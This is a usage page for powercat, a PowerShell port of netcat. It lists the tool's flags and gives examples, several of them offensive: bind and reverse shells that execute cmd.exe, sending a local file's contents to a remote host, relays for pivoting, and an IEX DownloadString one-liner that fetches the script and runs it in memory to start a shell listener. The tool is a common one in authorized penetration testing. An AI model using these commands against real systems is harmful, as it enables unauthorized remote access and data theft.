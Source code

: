 #powercat

Netcat: The powershell version. (v2 compatible)

### Parameters:
    -l    Listen for a connection.                             [Switch]
    -c    Connect to a listener.                               [String]
    -p    The port to connect to, or listen on.                [String]
    -e    Execute. (GAPING_SECURITY_HOLE)                      [String]
    -r    Relay. Formats: "-r 10.1.1.1:443", "-r 443"          [String]
    -t    Timeout option. Default: 60                          [int32]
### General Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Shove Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
    Output to a File:
        powershell -c '. .\powercat.ps1; powercat -l 443' > C:\outputfile
    Send a File (String):
        [IO.File]::ReadAllText('C:\inputfile') | powercat -c 10.1.1.10 443
        'The string I want to send' | powercat -l 443
    Download and Execute Powercat Listener:
        IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe
### powercat Relay Examples:
    Listener to Client Relay:
        powercat -l -p 8000 -r 10.1.1.16:443
    Listener to Listener Relay:
        powercat -l -p 8000 -r 4444
    Client to Listener Relay:
        powercat -c 10.1.1.16 -p 443 -r 4444
    Client to Client Relay:
        powercat -c 10.1.1.16 -p 443 -r 10.1.1.16:3389
